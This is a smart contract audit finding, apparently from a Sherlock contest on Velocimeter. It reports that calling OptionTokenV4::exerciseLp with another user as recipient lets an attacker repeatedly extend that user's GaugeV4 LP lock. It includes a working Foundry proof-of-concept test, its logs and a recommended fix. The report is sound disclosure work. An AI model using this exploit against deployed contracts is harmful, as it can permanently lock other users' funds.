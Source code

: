 Warm Denim Mantis

High

# Malicious user can permanently extend a users LP lock in gauge by calling `OptionTokenV4::exerciseLp` and setting the user as `_recipient`

## Summary
An attacker calling `OptionTokenV4::exerciseLp` can pass the address of a user with an active lock in `GaugeV4` as `_recipient` and extend that users lock duration infinitely without any way for the affected user to prevent it.

## Vulnerability Detail
A user is able to lock their LP in the `GaugeV4` contract by calling `depositWithLock`. This function allows the user to specify their desired `_lockDuration`. However a malicious user can call `OptionTokenV4::exerciseLp` on a small amount of tokens and specify this user as `_recipient` and cause this users lock duration to increase significantly.

As action could be repeated by the attacker whenever the lock duration was reaching the end, it effectively results in the possibility that the users tokens are permanently locked in the contract.

**Proof Of Concept**
Consider the following steps:
- Alice has LP tokens for a particular pair
- Alice calls `GaugeV4::depositWithLock`, locking her LP tokens for a period of time
- Bob has oFlow tokens
- Bob calls `OptionTokenV4::exerciseLp` with Alice's address as the `_recipient` and specifying the maximum `_discount`, resulting in the longest possible lock duration
- Alice's lock duration is now significantly longer than beforehand.

Add the following test to `OptionTokenV4.t.sol` to highlight this:
```solidity
    function test_Toad_ExerciseLpToExtendOthersLock() public {
        // Get Alice tokens
        address alice = makeAddr("alice");
        DAI.mint(alice, 10 ether);
        FLOW.mint(alice, 10 ether);

        // Regular user (Alice) locks token in gauge
        vm.startPrank(alice);
        DAI.approve(address(router), 10 ether);
        FLOW.approve(address(router), 10 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            10 ether,
            10 ether,
            0,
            0,
            alice,
            block.timestamp
        );
        flowDaiPair.approve(address(gauge), type(uint256).max);
        gauge.depositWithLock(alice, flowDaiPair.balanceOf(alice), 31 days);
        assertEq(flowDaiPair.balanceOf(alice), 0);
        uint256 aliceUnlockTime = gauge.lockEnd(alice);
        vm.stopPrank();


        // Get Bob OTokens
        address bob = makeAddr("bob");
        vm.startPrank(address(owner));
        washTrades();
        FLOW.approve(address(oFlowV4), 1 ether);
        oFlowV4.mint(bob, 1 ether);
        DAI.mint(bob, 10 ether);
        vm.stopPrank();

        // Attacker (Bob) calls exerciseLp with a non zero amount tokens with Alice as recipient
        vm.startPrank(bob);
        DAI.approve(address(oFlowV4), 10 ether);
        oFlowV4.exerciseLp(1e7, 1e7, alice, 20, block.timestamp);
        uint256 aliceNewUnlockTime = gauge.lockEnd(alice);

        // Assert alice's unlock time has been increased
        assert(aliceNewUnlockTime > aliceUnlockTime);
        console.log("Alice original unlock time:", aliceUnlockTime);
        console.log("Alice new unlock time     :", aliceNewUnlockTime);
    }
```
This results in the following logs:
```solidity
    [PASS] test_Toad_ExerciseLpToExtendOthersLock() (gas: 3620200)
    Logs:
    Alice original unlock time: 2678401
    Alice new unlock time     : 31467611
```


## Impact
This means the attacker can repeatedly extend a users lock meaning the users tokens locked in `GaugeV4` are never redeemable.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L700
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L443

## Tool used
Manual Review + Foundry to create PoC

## Recommendation
To remove the possibility of this attack vector it may be necessary to ensure that the `_recipient` in `OptionTokenV4::exerciseLp` is always `msg.sender`. Alternatively it could require that the `_recipient` does not already have an active lock in the gauge to ensure that the user is not extending the lock duration of previously locked funds.